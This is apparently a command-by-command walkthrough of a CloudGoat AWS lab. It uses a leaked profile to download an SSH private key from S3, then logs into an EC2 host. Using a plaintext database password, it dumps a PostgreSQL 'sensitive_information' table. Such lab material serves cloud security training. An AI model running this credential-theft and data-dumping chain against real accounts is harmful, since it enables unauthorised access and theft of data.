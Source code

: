`aws configure --profile McDuck`

`aws s3 ls --profile McDuck`

`aws s3 ls s3://<bucket> --recursive --profile McDuck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat . --profile McDuck`

`aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat.pub . --profile McDuck`

`aws ec2 describe-instances --profile McDuck`

`chmod 400 cloudgoat`

`ssh -i cloudgoat ubuntu@<ec2_ip>

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region us-east-1`

`psql postgresql://cgadmin:Purplepwny2029@<rds-instance>:5432/cloudgoat`

`\dt`

`select * from sensitive_information;`